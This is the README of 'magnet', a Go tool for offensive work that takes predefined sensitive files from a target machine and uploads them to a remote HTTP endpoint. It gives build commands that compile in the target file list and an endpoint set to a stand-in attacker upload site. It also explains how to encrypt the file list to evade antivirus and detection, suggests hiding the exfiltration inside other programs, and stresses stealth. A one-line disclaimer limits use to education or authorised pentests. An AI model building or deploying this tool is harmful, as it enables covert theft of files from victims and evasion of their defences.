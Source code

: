 <div align=center>
  <h1>magnet</h1>
  <pre>🧲⚡
  Grab interesting files from target</strong><br>

  <b><i>Cross-platform</i></b>
  <b><i>Stealth</i></b>
  <b><i>Portable</i></b>  
  </pre>
</div>

The library is built to fetch predefined files of interest from a remote device. It assumes that an HTTP endpoint is listening when the program is launched.

<sup><i>For educational purpose only or during pentest assessment with prior permission</i></sup>

## Usage

All the work is made **At compilation time**, you need to specify:
* ***The remote endpoint***, where juicy files are uploaded
* ***The Juicy files***, list of files you want to grab
* ***The target os***, to fit the target (between: `windows`, `darwin`, `linux`)

You have 2 possibilities:
* [Hide exfiltration in your program](#inject-magnet-in-your-go-program)
* [Use the standalone `magnet` executable](#standalone)

### Inject `magnet` in your Go program

### Standalone


#### Shorcut



To build `magnet` binary in one step:
```shell
make build.magnet.linux $FILE $ENDPOINT
# or build.magnet.windows or build.magnet.darwin
```

Then on target machine:
```shell
./magnet #or magnet.exe
```

#### Compile on your own

The compilation line looks like this:
```shell
export FILES=$(cat samples/linux_juicy_files_obfuscated.txt)
export KEY=thisismykey 
export ENDPOINT=http://[ATTACKER_UPLOAD_SITE]
GOOS=linux GOARCH=amd64 go build -ldflags "-X 'main.FileList=$FILES' "-X 'main.Key=$KEY' -X 'main.Endpoint=$ENDPOINT'" magnet.go
```



### Obfuscation/Encryption

To avoid detection systems, as we are seeking for sensitive files, **the different files we want to grab must not be in clear text within the binary** . Hence it used basic encryption with the key to decrypt embedded in binary. *(The aim is only to avoid AV and Detection system not to have strong encryption scheme)*

To build the obfuscated list:
```shell
cat [FILE] | lobfuscator $KEY > obfuscated.txt
```

## Notes

* For the remote endpoint , I suggest you to use the `/push` endpoint of a [`gitar`](https://github.com/ariary/gitar) listener
* The software is built to be stealthy hence:
  * error handling is not verbose (hidden flag to get more verbosity `-thisisdebug`)
  * I suggest to overwrite usage string in `magnet.go` to fit your attack scenario

## To do

* Handle directories
* Use others protocol to send files (ICMP, DNS, SMTP, etc...)
